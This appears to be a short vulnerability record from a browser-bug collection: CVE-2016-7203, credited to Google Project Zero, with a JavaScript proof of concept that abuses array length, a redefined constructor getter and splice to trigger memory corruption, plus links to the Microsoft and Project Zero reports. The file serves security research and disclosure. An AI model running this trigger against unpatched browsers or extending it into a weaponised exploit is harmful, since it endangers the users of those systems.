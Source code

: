 # CVE-2016-7203

- Report: Sep 2016
- Fix: Nov 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var a = [];

class dummy{}

a.length = 200000;
a.fill(7, 10000, 10200);

var o = {};

Object.defineProperty(o, 'constructor', {
    get: function() {
      a.length = 0xfffffffe;
      var k = [];
      k.fill.call(a, 7.7, 0xfffff000, 0xfffffffe);
      return dummy;
    }
  });

a.__proto__ = o;

var q = [];
q.length = 500;
q.fill(7.7);

var j = [];

a.length = 0xfffffffe - 500;

j.splice.call(a, 0, ...q);
a[0xfffff1ec - 1] = 10;
```

## Reference

- [Microsoft](https://technet.microsoft.com/library/security/ms16-129)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=934)
